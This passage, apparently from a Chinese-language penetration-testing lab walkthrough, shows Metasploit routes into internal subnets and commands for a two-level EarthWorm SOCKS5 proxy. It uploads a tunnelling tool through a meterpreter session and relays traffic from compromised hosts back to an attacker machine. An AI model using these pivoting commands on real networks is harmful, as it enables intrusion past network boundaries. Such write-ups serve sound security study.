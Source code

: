 ```
   Subnet             Netmask            Gateway                                                                                                                                                   
   ------             -------            -------                                                                                                                                                   
   192.168.52.0       255.255.255.0      Session 1                                                                                                                                                 
   192.168.93.0       255.255.255.0      Session 4                                                                                                                                                 

[*] There are currently no IPv6 routes defined.
```

**路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建一个二级socks5代理服务。**

首先攻击机上执行如下命令添加一个转接隧道，监听1090端口，并将1090端口收到的代理请求发送给1235端口，执行命令：

```
./ew_for_linux64 -s lcx_listen -l 1090 -e 1235
```

![截图](a89a40dd945a8ef85a3ce106c12824db.png)

然后在第二层网络的Windows服务器上传ew_for_Win.exe，并利用ssocksd方式启动999端口的正向socks代理，执行命令：

```
msf6 exploit(multi/handler) > sessions 4
meterpreter > upload /home/tom/ew_for_Win.exe C:\\Windows\\ew_for_Win.exe
ew_for_Win.exe -s ssocksd -l 999
```

![截图](256191742e64b661f4f43c8644cc1b3e.png)

最后，在DMZ区域的Ubuntu 18上传ew_for_linux64并利用lcx_slave方式，将攻击机的1235端口与第二层网络Windows 7的999端口连接起来，执行命令：

```
./ew_for_linux64 -s lcx_slave -d 192.168.111.128 -e 1235 -f 192.168.52.30 -g 999
```

![截图](dc4a81e8728443ecf424fa0555d25420.png)

